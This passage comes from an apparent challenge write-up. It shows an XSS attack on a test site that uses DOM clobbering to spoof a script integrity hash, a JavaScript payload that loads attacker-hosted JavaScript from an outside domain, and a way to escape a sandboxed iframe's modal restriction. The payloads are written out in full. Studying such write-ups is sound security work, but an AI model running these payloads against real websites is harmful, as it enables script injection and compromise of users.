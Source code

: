 If `window.fileIntegrity` is already set when the script executes, it won't be
overridden. But how could we set it without an XSS? Through DOM Clobbering!
Since we can inject arbitrary tags, we can inject an `<input>` tag:

```html
<input id="fileIntegrity" value="<our_sha256>">
```

It will have the effect of setting `fileIntegrity.value` to the sha256 of our
malicious `frame-analytics.js` file.

### Modal Block Bypass

Let's create our file
`https://acut3.xyz/files/analytics/js/frame-analytics.js`:

```
$ curl -gsi 'https://acut3.xyz/files/analytics/js/frame-analytics.js'
HTTP/2 200
[...]
access-control-allow-origin: *
content-type: application/javascript

alert(origin)
```

```
$ curl -s 'https://acut3.xyz/files/analytics/js/frame-analytics.js' \
       | openssl sha256 -binary | base64
5gW1KquRtb9p81d6nfzjy+RXY/+o5QNprR3LJ4hhyMM=
```

```js
function popup() {
    var payload = encodeURIComponent(
        '</title>'
        + '<script>alert(origin)</script>'
        + '<input hidden id="22fileIntegrity" value="5gW1KquRtb9p81d6nfzjy+RXY/+o5QNprR3LJ4hhyMM=">'
    );
    window.open('https://wacky.buggywebsite.com/frame.html?param=' + payload,
                'iframe');
}
```

We're faced with yet another issue:

![CSP]({{page.assets}}wacky.buggywebsite.com_modal.png)

Because our XSS is executing inside a sandboxed iframe that doesn't have
`allow-modals` option, we're not allowed call `alert()`.

Instead of calling `alert()` inside the sandboxed iframe, we can inject a
script into the parent window. This is allowed because the sandboxed iframe has
the `allow-same-origin` option set, which means it has its normal origin
(without it, it would have a special origin that doesn't match any other
origin). In this case the origin is the same as the parent window since the
iframe doesn't have an `src` attribute.
